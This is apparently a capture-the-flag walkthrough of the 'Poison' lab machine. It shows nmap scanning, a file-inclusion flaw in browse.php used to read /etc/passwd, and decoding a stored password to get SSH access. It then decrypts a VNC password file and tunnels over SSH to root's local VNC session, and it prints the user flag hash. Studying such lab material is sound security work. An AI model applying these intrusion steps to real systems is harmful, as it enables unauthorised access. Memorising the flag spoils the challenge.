

# MACHINE CHALLENGE: POISON

## Challenge Description

##### Own system
Type below the hash that is inside the root.txt file in the machine. The file
can be found under /root on Linux machines and at the Desktop of the
Administrator on Windows.

##### Own User
Type below the hash that is inside the user.txt file in the machine. The file
can be found under /home/{username} on Linux machines and at the Desktop of the
user on Windows. 

```
IP Address: 10.10.10.84
OS: FreeBSD
```

### PORTSCANNING w/ NMAP

Use `nmap` to see if we can detect what services our host is offering, what
operating system (and version) our host is running, what type of packet
filters/firewalls are in use, etc.

```
$ nmap -sV -Pn 10.10.10.84

Starting Nmap 7.60 ( https://nmap.org ) at 2018-08-30 01:21 EDT
Nmap scan report for 10.10.10.84
Host is up (0.58s latency).
Not shown: 995 closed ports
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.2 (FreeBSD 20161230; protocol 2.0)
80/tcp   open  http    Apache httpd 2.4.29 ((FreeBSD) PHP/5.6.32)
5802/tcp open  http    Bacula http config
5902/tcp open  vnc     VNC (protocol 3.8)
6002/tcp open  X11     (access denied)
Service Info: OS: FreeBSD; CPE: cpe:/o:freebsd:freebsd

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 69.78 seconds
```

So we have SSH(22) and HTTP(80).

### ENUMERATING PORT 80 (HTTP)

Visiting the webpage.. what do we see?


A page that teases us to try entering four different files names to "test" out:
`ini.php`, `info.php`, `listfiles.php` and `phpinfo.php`. Let's oblige!


Cycling through each of the files, `info.php` and `phpinfo.php` may be
interesting later if we have to exploit a vulnerability in those particular
versions of the OS and/or PHP.


`ini.php` may be interesting if I had to figure out some relationship between
variables or how they are initialized?


`listfiles.php` however shows us a list of files we are already aware of which
are stored in an array?  (`browse.php`, `index.php`, `info.php`, `ini.php`,
`listfiles.php`, `phpinfo.php`), but more importantly reveals a new file to our
attention `pwdbackup.txt`.

So, what happens if we feed this new file name into our file browser?


Seems like we have a base64 encoding that we have to decode 13x?

```
$ cat pwdbackup.txt
This password is secure, it's encoded atleast 13 times.. what could go wrong really..

Vm0wd2QyUXlVWGxWV0d4WFlURndVRlpzWkZOalJsWjBUVlpPV0ZKc2JETlhhMk0xVmpKS1IySkVU
bGhoTVVwVVZtcEdZV015U2tWVQpiR2hvVFZWd1ZWWnRjRWRUTWxKSVZtdGtXQXBpUm5CUFdWZDBS
bVZHV25SalJYUlVUVlUxU1ZadGRGZFZaM0JwVmxad1dWWnRNVFJqCk1EQjRXa1prWVZKR1NsVlVW
M040VGtaa2NtRkdaR2hWV0VKVVdXeGFTMVZHWkZoTlZGSlRDazFFUWpSV01qVlRZVEZLYzJOSVRs
WmkKV0doNlZHeGFZVk5IVWtsVWJXaFdWMFZLVlZkWGVHRlRNbEY0VjI1U2ExSXdXbUZEYkZwelYy
eG9XR0V4Y0hKWFZscExVakZPZEZKcwpaR2dLWVRCWk1GWkhkR0ZaVms1R1RsWmtZVkl5YUZkV01G
WkxWbFprV0dWSFJsUk5WbkJZVmpKMGExWnRSWHBWYmtKRVlYcEdlVmxyClVsTldNREZ4Vm10NFYw
MXVUak5hVm1SSFVqRldjd3BqUjJ0TFZXMDFRMkl4WkhOYVJGSlhUV3hLUjFSc1dtdFpWa2w1WVVa
T1YwMUcKV2t4V2JGcHJWMGRXU0dSSGJFNWlSWEEyVmpKMFlXRXhXblJTV0hCV1ltczFSVmxzVm5k
WFJsbDVDbVJIT1ZkTlJFWjRWbTEwTkZkRwpXbk5qUlhoV1lXdGFVRmw2UmxkamQzQlhZa2RPVEZk
WGRHOVJiVlp6VjI1U2FsSlhVbGRVVmxwelRrWlplVTVWT1ZwV2EydzFXVlZhCmExWXdNVWNLVjJ0
NFYySkdjR2hhUlZWNFZsWkdkR1JGTldoTmJtTjNWbXBLTUdJeFVYaGlSbVJWWVRKb1YxbHJWVEZT
Vm14elZteHcKVG1KR2NEQkRiVlpJVDFaa2FWWllRa3BYVmxadlpERlpkd3BOV0VaVFlrZG9hRlZz
WkZOWFJsWnhVbXM1YW1RelFtaFZiVEZQVkVaawpXR1ZHV210TmJFWTBWakowVjFVeVNraFZiRnBW
VmpOU00xcFhlRmRYUjFaSFdrWldhVkpZUW1GV2EyUXdDazVHU2tkalJGbExWRlZTCmMxSkdjRFpO
Ukd4RVdub3dPVU5uUFQwSwo=
```

### BASE64

So let's `base64` decode this string 13x and see what we get..

```
$ echo "Vm0wd2QyUXlVWGxWV0d4WFlURndVRlpzWkZOalJsWjBUVlpPV0ZKc2JETlhhMk0xVmpKS1IySkVUbGhoTVVwVVZtcEdZV015U2tWVQpiR2hvVFZWd1ZWWnRjRWRUTWxKSVZtdGtXQXBpUm5CUFdWZDBSbVZHV25SalJYUlVUVlUxU1ZadGRGZFZaM0JwVmxad1dWWnRNVFJqCk1EQjRXa1prWVZKR1NsVlVWM040VGtaa2NtRkdaR2hWV0VKVVdXeGFTMVZHWkZoTlZGSlRDazFFUWpSV01qVlRZVEZLYzJOSVRsWmkKV0doNlZHeGFZVk5IVWtsVWJXaFdWMFZLVlZkWGVHRlRNbEY0VjI1U2ExSXdXbUZEYkZwelYyeG9XR0V4Y0hKWFZscExVakZPZEZKcwpaR2dLWVRCWk1GWkhkR0ZaVms1R1RsWmtZVkl5YUZkV01GWkxWbFprV0dWSFJsUk5WbkJZVmpKMGExWnRSWHBWYmtKRVlYcEdlVmxyClVsTldNREZ4Vm10NFYwMXVUak5hVm1SSFVqRldjd3BqUjJ0TFZXMDFRMkl4WkhOYVJGSlhUV3hLUjFSc1dtdFpWa2w1WVVaT1YwMUcKV2t4V2JGcHJWMGRXU0dSSGJFNWlSWEEyVmpKMFlXRXhXblJTV0hCV1ltczFSVmxzVm5kWFJsbDVDbVJIT1ZkTlJFWjRWbTEwTkZkRwpXbk5qUlhoV1lXdGFVRmw2UmxkamQzQlhZa2RPVEZkWGRHOVJiVlp6VjI1U2FsSlhVbGRVVmxwelRrWlplVTVWT1ZwV2EydzFXVlZhCmExWXdNVWNLVjJ0NFYySkdjR2hhUlZWNFZsWkdkR1JGTldoTmJtTjNWbXBLTUdJeFVYaGlSbVJWWVRKb1YxbHJWVEZTVm14elZteHcKVG1KR2NEQkRiVlpJVDFaa2FWWllRa3BYVmxadlpERlpkd3BOV0VaVFlrZG9hRlZzWkZOWFJsWnhVbXM1YW1RelFtaFZiVEZQVkVaawpXR1ZHV210TmJFWTBWakowVjFVeVNraFZiRnBWVmpOU00xcFhlRmRYUjFaSFdrWldhVkpZUW1GV2EyUXdDazVHU2tkalJGbExWRlZTCmMxSkdjRFpOUkd4RVdub3dPVU5uUFQwSwo=" | base64 -d | base64 -d | base64 -d | base64 -d | base64 -d | base64 -d | base64 -d | base64 -d | base64 -d | base64 -d | base64 -d | base64 -d | base64 -d
Charix!2#4%6&8(0
```

So we have what appears to be a password that we can probably log in with `ssh` as.. but what user name should we try?

```
$ ssh root@10.10.10.84
Password for root@Poison:

$ ssh Charix@10.10.10.84
Password for Charix@Poison:
```

Those didn't work with the password.

### ETC/PASSWD

Going back to the `browse.php` file, what if we gave it a random string?


Seems like the script just attempts to do an `include()` on what ever string we
give it within the directory `/usr/local/www/apache24/data/`. What if we just
tried to view `/etc/passwd` to see if we can get any user information?


Neat! That gives us a listing of users on the machine and we see a user called
`charix` which we tried earlier, but we didn't try lowercase.

Using user `charix` with password `Charix!2#4%6&8(0` gets us in.

```
$ ssh charix@10.10.10.84
Password for charix@Poison:
Last login: Thu Aug 30 07:20:49 2018 from 10.10.15.43
FreeBSD 11.1-RELEASE (GENERIC) #0 r321309: Fri Jul 21 02:08:28 UTC 2017

Welcome to FreeBSD!

Release Notes, Errata: https://www.FreeBSD.org/releases/
Security Advisories:   https://www.FreeBSD.org/security/
FreeBSD Handbook:      https://www.FreeBSD.org/handbook/
FreeBSD FAQ:           https://www.FreeBSD.org/faq/
Questions List: https://lists.FreeBSD.org/mailman/listinfo/freebsd-questions/
FreeBSD Forums:        https://forums.FreeBSD.org/

Documents installed with the system are in the /usr/local/share/doc/freebsd/
directory, or can be installed later with:  pkg install en-freebsd-doc
For other languages, replace "en" with a language code like de or fr.

Show the version of FreeBSD installed:  freebsd-version ; uname -a
Please include that output and any error messages when posting questions.
Introduction to manual pages:  man man
FreeBSD directory layout:      man hier

Edit /etc/motd to change this login announcement.
You can disable tcsh's terminal beep if you `set nobeep'.
charix@Poison:~ % 
```

### OWN USER

Getting to the user from here is straight forward.

```
charix@Poison:~ % ls
secret.zip	user.txt
charix@Poison:~ % cat user.txt
eaacdfb2d141b72a589233063604209c
charix@Poison:~ % 
```

Wonder what the `secret.zip` is.. probably relevant to getting to root.

```
$ scp charix@10.10.10.84:/home/charix/secret.zip secret.zip
Password for charix@Poison:
secret.zip                                    100%  166     0.5KB/s   00:00 
$ file secret.zip 
secret.zip: Zip archive data, at least v2.0 to extract
$ unzip -l secret.zip 
Archive:  secret.zip
  Length      Date    Time    Name
---------  ---------- -----   ----
        8  2018-01-24 19:01   secret
---------                     -------
        8                     1 file
$ unzip secret.zip 
Archive:  secret.zip
[secret.zip] secret password:
```

Looks like we are hit with a password when we try to unzip the file. Wonder if
this user is like the majority of the population and reuses passwords for
everything? Let's try `Charix!2#4%6&8(0` against the zip..

```
$ unzip secret.zip 
Archive:  secret.zip
[secret.zip] secret password: 
 extracting: secret                  
$ file secret
secret: Non-ISO extended-ASCII text, with no line terminators
$ cat secret
??[|Ֆz!
$ hexdump secret
0000000 a8bd 7c5b 96d5 217a                    
0000008
```

Cool, that worked.. but what did we find? And what do we do with it?

### OWNING ROOT

### ENUMERATE

Running our Linux Enumeration script, we are hit with an immediately failure as
apparently `bash` doesn't come installed on `FreeBSD`. DOH.

```
$ scp LinEnum.sh charix@10.10.10.84:/tmp/LinEnum.sh
charix@Poison:/tmp % chmod +x LinEnum.sh
charix@Poison:/tmp % ./LinEnum.sh -r LinEnum.out
./LinEnum.sh: Command not found.
charix@Poison:/tmp % which bash
bash: Command not found.
```

Tried modifying my script to use `/bin/sh` instead and that worked. Finally was
able to execute my script, but nothing immediately pops out as useful.

```
charix@Poison:/tmp % ./LinEnum.sh -r LinEnum.out
$ scp  charix@10.10.10.84:/tmp/LinEnum.out-30-08-18 .
```

### VNC?

Going back to our portscan, there were two other services running on the system
that I haven't seen on the other systems before.

```
5802/tcp open  http    Bacula http config
5902/tcp open  vnc     VNC (protocol 3.8)
```

```
What is Bacula?
Bacula is a set of computer programs that permits the system administrator to
manage backup, recovery, and verification of computer data across a network of
computers of different kinds. Bacula can also run entirely upon a single
computer and can backup to various types of media, including tape and disk.

http://www.bacula.org/5.1.x-manuals/en/main/main/What_is_Bacula.html
```

Hm.. that sounds interesting.  Wonder if we can some how take advantage of the
system's backup process? Searching for `bacula` in our Linux Enum Report didn't
yield any hints, but our report did have several references to `Xvnc` as
running processes..

```
root    529  0.0  0.9  23608  9024 v0- I    13:58    0:00.23 Xvnc :1 -desktop X -httpd /usr/local/sha
```

So what is `Xvnc`?

```
Xvnc is the X VNC (Virtual Network Computing) server.  It is based on a
standard X server, but it has a "virtual"  screen  rather  than  a  physical
one. X  applications  display themselves on it as if it were a normal X
display, but they can only be accessed via a VNC viewer - see vncviewer(1).
```

Okay.. that could also be interesting. Recalling the machine `valentine` where
the key to `root` was using `tmux` to attach and detach to the system as part
of his/her workflow, what if for this box.. `root` was using VNC to connect to
the machine as part of their workflow?

Let's explore a bit more about what else we can learn about "vnc" running on
this box..

```
charix@Poison:~ % sockstat | grep vnc
charix   Xvnc       966   0  tcp4   *:6002                *:*
charix   Xvnc       966   1  stream /tmp/.X11-unix/X2
charix   Xvnc       966   3  tcp4   *:5902                *:*
charix   Xvnc       966   4  tcp4   *:5802                *:*
charix   Xvnc       966   5  stream /tmp/.X11-unix/X2
charix   Xvnc       966   6  stream /tmp/.X11-unix/X2
charix   Xvnc       966   7  tcp4   10.10.10.84:5902      10.10.14.29:51614
root     Xvnc       529   0  stream /tmp/.X11-unix/X1
root     Xvnc       529   1  tcp4   127.0.0.1:5901        *:*
root     Xvnc       529   3  tcp4   127.0.0.1:5801        *:*
root     Xvnc       529   4  stream /tmp/.X11-unix/X1
root     Xvnc       529   5  stream /tmp/.X11-unix/X1
```

Interesting, we see a reference to port `5801` and `5901` open sockets for
`root`, but our portscanned `5902` is associated with `charix`?

So let's see if we can use `vncviewer` from our local system to remote connect
to the box..

```
$ vncviewer 10.10.10.84:5902
Connected to RFB server, using protocol version 3.8
Enabling TightVNC protocol extensions
Performing standard VNC authentication
Password: 
Authentication failed
```
Hm.. we were hit with a password and trying our "charix" password again didn't
work in this case. What to use for the password??

Looking up the manpage for `vncviewer`, we see reference to a `-passwd` option:

```
       -passwd passwd-file
              File  from  which  to get the password (as generated by the vnc‐
              passwd(1) program). This option affects only  the  standard  VNC
              authentication.
```

I wonder if that `passwd-file` has anything to do with the `secret.zip` we
encountered earlier?

```
$ vncviewer -passwd secret 10.10.10.84:5902
Connected to RFB server, using protocol version 3.8
Enabling TightVNC protocol extensions
Performing standard VNC authentication
Authentication failed, too many tries
```

Huh.. that is a different message and seems to imply that we were able to
authenticate? but the account is locked out? (maybe from our earlier attempts).
No idea.

Searching around, found a tool out there that decrypts VNC passwords..

```
https://github.com/jeroennijhof/vncpwd
```

Trying it out gave us a shocking result!

```
$ vncpwd secret
Password: VNCP@$$!
```

So this `secret.zip` file that we found is in fact a VNC password file and
passing it to `vncviewer` should have worked.

Recalling that we saw port `5901` was active by root when we did our local
port scan, what if we tried that instead?

```
$ vncviewer -passwd secret 10.10.10.84:5901
vncviewer: ConnectToTcpAddr: connect: Connection refused
Unable to connect to VNC server
```

Hm. Different error message. Connection refused. I guess that makes sense since
our port scan in the beginning didn't show that as an open port? Eventually got
a hint about "ssh tunnelling" and searching around for information on port
forwarding gave us this piece of gold..


The information of particular interest..

```
https://bitvijays.github.io/LFC-VulnerableMachines.html#from-nothing-to-unprivileged-shell

Imagine we’re on a private network which doesn’t allow connections to a
specific server. Let’s say you’re at work and youtube is being blocked. To get
around this we can create a tunnel through a server which isn’t on our network
and thus can access Youtube.

<...>

Now, webserver on port 8080 and 8081 are running on localhost, if we have ssh
access to the machine, we can tunnel them via local port forwarding and run it
on the ethernet interface.
```

So now I understand that port `5901` isn't "open" and we can't connect to it,
but on the box I saw that `root` is running a VNC Server there. Since I also
have access to the box via our `charix` user, I can create a tunnel via the
`ssh` command to allow me to forward a local port of my choosing (let's just
also use 5901 for simplicity's sake) to port `5901` on the box.

```
$ lsof -ti:5901 | xargs kill -9
$ ssh -L 5901:127.0.0.1:5901 -N -f -l charix 10.10.10.84
Password for charix@Poison:
```

Okay, now we should have our ssh tunnel set up now. Let's see if we can
connect to the VNC server being run by `root` on port `5901` now by launching
`vncviewer` on my local machine against my local port `5901`..

```
$ vncviewer -passwd secret 127.0.0.1:5901
Connected to RFB server, using protocol version 3.8
Enabling TightVNC protocol extensions
Performing standard VNC authentication
Authentication successful
Desktop name "root's X desktop (Poison:1)"
VNC server default format:
  32 bits per pixel.
  Least significant byte first in each pixel.
  True colour: max red 255 green 255 blue 255, shift red 16 green 8 blue 0
Using default colormap which is TrueColor.  Pixel format:
  32 bits per pixel.
  Least significant byte first in each pixel.
  True colour: max red 255 green 255 blue 255, shift red 16 green 8 blue 0
Same machine: preferring raw encoding
```

Finally, we're able to VNC into the machine and we see `root` terminal window!


